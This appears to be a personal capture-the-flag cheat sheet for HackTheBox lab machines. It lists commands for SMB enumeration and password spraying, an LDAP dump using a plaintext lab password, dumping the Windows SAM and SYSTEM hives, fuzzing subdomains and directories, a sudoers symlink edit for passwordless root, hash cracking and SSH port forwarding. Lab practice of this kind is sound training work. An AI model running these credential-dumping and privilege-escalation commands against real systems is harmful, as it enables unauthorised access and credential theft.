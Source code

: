 #### SMB:
  * smbclient -N -L //10.10.11.35
  * netexec smb 10.10.11.35 -u 'a' -p '' --shares
  * smbclient -U Guest //10.10.11.35/share
  * netexec smb 10.10.11.35 -u Guest -p '' --rid-brute
  * netexec smb 10.10.11.35 -u username.txt -p 'password123!'

### LDAP:
  * ldapdomaindump 10.10.11.35 -u 'domain\username' -p 'password123!'
  * ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'

#### Powershell:
  * Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -ErrorAction SilentlyContinue

#### System SAM Hive dump:
  * cd c:\
  * mkdir Temp
  * reg save hklm\sam c:\Temp\sam
  * reg save hklm\system c:\Temp\system
  * cd Temp
  * download sam
  * download system
  * pypykatz registry --sam sam system

#### Subdomain Enumeration:
  * ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18

#### Directory Enumeration
  * gobuster dir -u http://lms.permx.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#### Symlink Techniques:
  * ln -s /etc/sudoers /home/john/sudoerss

#### Manipulating sudoers file:
  * vi /etc/sudoers
    * john ALL=(ALL:ALL) NOPASSWD: ALL
   
#### Hash cracking:
  * john john.hash -w=/usr/share/wordlists/rockyou.txt

#### SSH local port forwarding:
  * Service in running on victim machine 127.0.0.1:8080 and can only be accessed via localhost
    * kali-Attacker$ ssh -L 0.0.0.0:9999:127.0.0.1:PORT john@VICTIM-IP
    * kali-Attacker$ curl -I http://127.0.0.1:9999
